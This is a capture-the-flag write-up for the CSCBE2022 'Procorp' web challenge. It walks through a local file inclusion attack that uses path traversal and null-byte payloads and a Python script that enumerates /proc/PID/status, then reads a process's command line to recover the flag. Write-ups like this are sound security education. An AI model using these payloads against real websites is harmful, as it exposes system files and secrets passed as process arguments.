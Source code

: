 # CSCBE2022 - Procorp

## Web - Medium

In this challenge we were given a website talking about Procorp, a process manager. 
![](https://i.imgur.com/ySP8Itm.png)

We can't find anything really interesting on the website, except for a Guide page that talks about a simple way to use this process manager.

![](https://i.imgur.com/JzOBzSH.png)

Looking at the pastebin URL, we obviously find a fake flag. From here we can see that the flag is set by passing it as an argument to the process manager with the f option.

We can also see that the URL of this Guide webpage is included as follows.
`52.50.60.154/index.php?p=guide`

From this point on, we can think of a classic LFI attack.

As the main file for the website is `index.php`, it appears that `.php` is added to the file name passed to the `?p` parameter. To get around this, we need to add a null byte (`%00`) to the file we are trying to include.

So let's start by trying to include the other files that already exist.

`http://52.50.60.154/index.php?p=../html/pricing` (.php is appended to pricing to include pricing.php)
![](https://i.imgur.com/E03Dggl.png)
Here we can see two things:

- We are probably in the /var/www/html directory
- The LFI works

Let's continue by trying to include classic files such as /etc/passwd
`http://52.50.60.154/index.php?p=../../../../../../../../../../../etc/passwd%00` (remember about the null byte so that the .php extension is not added)
![](https://i.imgur.com/2cKwXpI.png)

We are not allowed to include files from the /etc directory.
So we kept trying to include different files from various directories but we weren't allowed to so. Except for a directory, /proc.
This special directory holds all the details about your Linux system, including its kernel, processes, and configuration parameters.

By reading documentation on proc files, we can see that some might be interesting to include.
https://tldp.org/LDP/Linux-Filesystem-Hierarchy/html/proc.html

/proc/PID/stat

> Process status.
> /proc/PID/stat files also display the name of the process

/proc/PID/cmdline

> Command line arguments.
> This seems interesting considering that procorp is supposed to be run with the flag as a command line argument 


Let's try it.
`http://52.50.60.154/index.php?p=../../../../../../../../../../../proc/1/status%00`
![](https://i.imgur.com/Oy2ZvNW.png)

From here we can see that the name of the first process is `entrypoint.sh`. But let's see if we can find a more interesting process. To do this, we'll create a quick and dirty script that looks at the status of all the pids.


```python
import requests
url = "http://52.50.60.154/index.php?p=../../../../../../../../../../../proc/"

for i in range(1000):
	a = requests.get(url+str(i)+"/status%00")
	print("testing : ", i)
	
	if "Quickly manage your processes!" not in a.text:
		a = str(a.content)
		a = a.split("Name:")
		a = a[1]
		a = a.split("Umask")
		print(a[0])
```

We run it and we can see that procorp is running on different pids. 

![](https://i.imgur.com/g1VV0KZ.png)

Let's choose one and include its command line arguments.
`http://52.50.60.154/index.php?p=../../../../../../../../../../../proc/7/cmdline%00`
And the flag is there :)

![](https://i.imgur.com/hLThpz2.png)


That's just how we first blooded this interesting and fun challenge.
